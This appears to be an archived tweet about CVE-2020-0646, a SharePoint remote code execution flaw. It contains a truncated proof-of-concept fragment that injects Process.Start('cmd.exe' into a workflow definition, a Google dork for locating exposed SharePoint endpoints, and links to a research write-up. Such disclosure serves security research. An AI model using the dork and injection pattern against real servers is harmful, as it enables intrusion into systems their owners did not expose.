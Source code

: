 # wugeej
**https://twitter.com/wugeej/status/1346348017389998081 _at 2021-01-05, 06:49:15_**
<blockquote>
CVE-2020-0646 SharePoint RCE

PoC
CallExternalMethodActivity x:Name="foo" 
....System.Diagnostics.Process.Start("cmd.exe",

Google Dork
.sharepoint.com/_vti_bin/webpartpages/asmx -docs -msdn -mdsec

https://t.co/DRGcSRZ6Co https://t.co/w1OI4ADbbJ
</blockquote>

* https://www.mdsec.co.uk/2020/01/code-injection-in-workflows-leading-to-sharepoint-rce-cve-2020-0646/?fbclid=IwAR0b4QZxdQKVYN-ES62rdt9yN5MMzfgpK7DkdkbIq44Flm-ODiuqzeIglUQ

<table><tr>
<td><img src="pictures/011f699a1b214dc18990dc4cc00616bebf5498782e497a8a398e6c05f2f4d66b.jpg" alt="011f699a1b214dc18990dc4cc00616bebf5498782e497a8a398e6c05f2f4d66b.jpg"></td>